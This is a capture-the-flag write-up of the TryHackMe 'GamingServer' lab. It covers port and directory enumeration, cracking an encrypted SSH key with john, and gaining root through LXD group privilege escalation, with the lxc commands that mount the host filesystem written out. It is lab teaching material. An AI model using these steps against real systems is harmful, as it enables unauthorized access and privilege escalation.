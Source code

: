 # GamingServerWriteup

Try Hack Me Writeup — GamingServer

Hello Guys , I am Vishal Kumar. My username on THM is “vishack56”.

STEP 1:

Port Scan: Running NMAP full port scan on it , we get

root@vish:~/TryHackMe# nmap -sC -sV -p- -T4 10.10.246.20
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 16:33 IST
Nmap scan report for 10.10.246.20
Host is up (0.20s latency).
Not shown: 65531 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
29926/tcp filtered unknown
50976/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1044.51 seconds

Visiting the 80 port on browser we see a "House of Danak" page. There is something interesting in its source code which is :
"john, please add some actual content to the site! lorem ipsum is horrible to look at."

john must be the username.

STEP 2:

Running gobuster:

gobuster dir -u http://10.10.246.20/ --wordlist /home/security/SecLists/Discovery/Web-Content/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/<<hidden-text>> (Status: 200)
/<<hidden-text>> (Status: 301)
/<<hidden-text>> (Status: 403)
/<<hidden-text>> (Status: 301)

  
 ----------------------------------------------------------------- Screenshot 1 -------------------------------------------------------
 
 
 STEP 3:
 
 Visiting the hidden directoory, we get dict.lst file which I assume is some sort of wordlist.
 
 ------------------------------------------------------------------Screenshot 2----------------------------------------------------------
 
 and another hidden directory contains encrypted SSH key:
 
 -------------------------------------------------------------------Screenshot 3---------------------------------------------------------
 
 STEP 4:
 
 Since the RSA key is encrypted we’ll use ssh2john and john to crack the hash. I saved the hash as id_rsa.
 
root@vish:~/TryHackMe/GamingServer# nano id_rsa
root@vish:~/TryHackMe/GamingServer# /usr/share/john/ssh2john.py id_rsa > id_rsa_hash
root@vish:~/TryHackMe/GamingServer# john --wordlist=dict.lst id_rsa_hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
<<hidden-password>>          (id_rsa)
1g 0:00:00:00 DONE (2020-08-31 17:04) 4.000g/s 888.0p/s 888.0c/s 888.0C/s 2003..starwars
Session completed
  
--------------------------------------------------------------------Screenshot 4-----------------------------------------------------------

STEP 5:

SSH Login :

root@vish:~/TryHackMe/GamingServer# chmod 600 id_rsa
root@vish:~/TryHackMe/GamingServer# ssh -i id_rsa john@10.10.246.20
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.246.20 (10.10.246.20)' can't be established.
ECDSA key fingerprint is SHA256:LO5bYqjXqLnB39jxUzFMiOaZ1YnyFGGXUmf1edL6R9o.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.246.20' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 31 11:49:55 UTC 2020

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.246.20
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10

john@exploitable:~$ cat user.txt
<<hidden-user-flag>>
  
  
  ---------------------------------------------------------Screenshot 5--------------------------------------------------------------

STEP 6:

Privilege Escalation
  
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

-------------------------------------------------------------Screenshot 6 --------------------------------------------------------------

LXD seems interesting, after enumerating this I got a technique to escalate provilege from https://www.hackingarticles.in/lxd-privilege-escalation/

Following the steps of this article and the machine is rooted.

In Local machine:
First Download the "build alpine" from : https://github.com/saghul/lxd-alpine-builder.git
Go to the lxd-alpine-builder directory and run "build-alpine" by ./build-alpine
On running the above command, a tar.gz file is created.
Transfer that file in the host machine into /tmp

and run the following commands one by one:

- lxc image import ./alpine-v3.12-x86_64-20200831_1326.tar.gz --alias myimage
- lxc image list
- lxc init myimage ignite -c security.privileged=true
- lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
- lxc start ignite
- lxc exec ignite /bin/sh

john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)

-------------------------------------------------------------------Screenshot 7---------------------------------------------------------------------


/mnt/root/root # cat root.txt
<<hidden-root-flag>>
/mnt/root/root #
  
Thanks for reading this.





 
 
